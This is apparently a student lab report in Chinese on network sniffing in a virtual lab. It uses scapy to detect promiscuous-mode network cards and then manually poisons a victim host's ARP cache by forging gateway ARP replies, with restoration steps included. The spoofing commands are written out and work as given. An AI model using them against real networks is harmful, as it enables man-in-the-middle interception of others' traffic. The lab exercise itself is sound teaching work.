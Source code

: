 # 网络监听

## 实验准备

网络中的节点基本信息如下：

- 攻击者主机：Kali
  - 08:00:27:d0:11:c7 / eth0
  - 172.16.111.124
- 受害者主机：Kali
  - 08:00:27:37:d3:99/ eth0
  - 172.16.111.102
- 网关：Ubuntu18.04
  - 08:00:27:81:53:7d/ enp0s8
  - 172.16.111.1

### 安装scapy

- 在攻击者主机上安装scapy

  安装 python3`sudo apt update && sudo apt install python3 python3-pip`

  `pip3 install scapy[complete]`

**安装完成**

<img src="images/安装scapy.png" style="zoom: 40%;" />

##  实验一：检测局域网中的异常终端

- 在受害者主机上检查网卡的「混杂模式」是否启用

  `ip link show eth0`

  <img src="images/victim-检查网卡的「混杂模式」是否启用.png" style="zoom:50%;" />

- 在攻击者主机上开启 scapy

  `sudo scapy`

  <img src="images/attacker-开启 scapy.png" style="zoom:50%;" />

- 在 scapy 的交互式终端输入以下代码回车执行

  `pkt = promiscping("172.16.111.102")`

  <img src="images/attacker-scapy代码执行.png" style="zoom:50%;" />

-  回到受害者主机上开启网卡的『混杂模式』

  注意上述输出结果里应该没有出现 PROMISC 字符串

  手动开启该网卡的「混杂模式」

  `sudo ip link set eth0 promisc on`

- 发现输出结果里多出来了 PROMISC 
  `ip link show eth0`

  <img src="images/victim-开启该网卡的「混杂模式」.png" style="zoom:50%;" />

- 回到攻击者主机上的 scapy 交互式终端继续执行命令

  `pkt = promiscping("172.16.111.102")`

  <img src="images/attacker-输出结果-2.png" style="zoom:50%;" />

- 在受害者主机上

  手动关闭该网卡的「混杂模式」

  `sudo ip link set eth0 promisc off`

##  实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成

- 获取当前局域网的网关 MAC 地址

- 构造一个 ARP 请求

  `arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")`

- 查看构造好的 ARP 请求报文详情
  `arpbroadcast.show()`

  <img src="images/attacker-查看构造好的 ARP 请求报文详情.png" style="zoom:50%;" />

- 发送这个 ARP 广播请求
  `recved = srp(arpbroadcast, timeout=2)`

  <img src="images/attacker-发送ARP 广播请求.png" style="zoom:50%;" />

- 网关 MAC 地址如下
  `gw_mac = recved[0][0][1].hwsrc`

- 伪造网关的 ARP 响应包

  准备发送给受害者主机 172.16.111.102

  ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  `arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.102", hwdst="08:00:27:d0:11:c7")`

- 发送上述伪造的 ARP 响应数据包到受害者主机
  `sendp(arpspoofed)`

  <img src="images/attakcer-发送伪造的 ARP 响应数据包到受害者主机.png" style="zoom:50%;" />

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

`ip neigh`

<img src="images/victim-查看 ARP 缓存.png" style="zoom:50%;" />

回到攻击者主机上的 scapy 交互式终端继续执行命令。

- 恢复受害者主机的 ARP 缓存记录

  - 伪装网关给受害者发送 ARP 响应
    `restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:81:53:7d", pdst="172.16.111.102", hwdst="08:00:27:37:d3:99")`
    `sendp(restorepkt1, count=100, inter=0.2)`

  <img src="images/attacker-伪装网关给受害者发送 ARP 响应.png" style="zoom:50%;" />

此时在受害者主机上准备“刷新”网关 ARP 记录。

- 在受害者主机上尝试 ping 网关
  `ping 172.16.111.1`

- 静候几秒 ARP 缓存刷新成功，退出 ping

- 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  `ip neigh`

  <img src="images/victim-再次查看ARP缓存.png" style="zoom:50%;" />

  啊这......

